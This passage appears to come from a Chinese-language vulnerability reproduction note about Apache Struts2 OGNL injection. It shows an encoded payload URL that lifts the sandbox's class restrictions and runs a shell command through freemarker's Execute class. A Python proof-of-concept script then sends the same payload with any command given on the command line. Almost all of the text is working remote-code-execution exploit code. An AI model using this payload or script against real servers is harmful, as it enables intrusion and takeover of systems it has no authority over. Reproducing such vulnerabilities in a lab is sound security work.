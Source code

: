 ```
http://192.168.17.130:42957/?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27id%27}).(%23res%3d%23exec.exec(%23cmd))}
```
![struts2-2](img/struts2-2.png)

- 通过`Poc`进行漏洞验证

```
# encoding=utf-8
import requests
import sys
from lxml import etree

def exp(url,cmd):
    payload="%25%7b(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application%5b%27org.apache.tomcat.InstanceManager%27%5d).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr%5b%27struts.valueStack%27%5d).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d%7b%27"+cmd+"%27%7d).(%23res%3d%23exec.exec(%23cmd))%7d"
    total_url=url+"/?id="+payload
    r=requests.get(total_url)
    page=r.text
    page=etree.HTML(page)
    data = page.xpath('//a[@id]/@id')
    print(data[0])
 
if __name__=='__main__':
    if len(sys.argv)!=3:
        print("[+]ussage: http://ip:port command")
    url=sys.argv[1]
    cmd=sys.argv[2]
```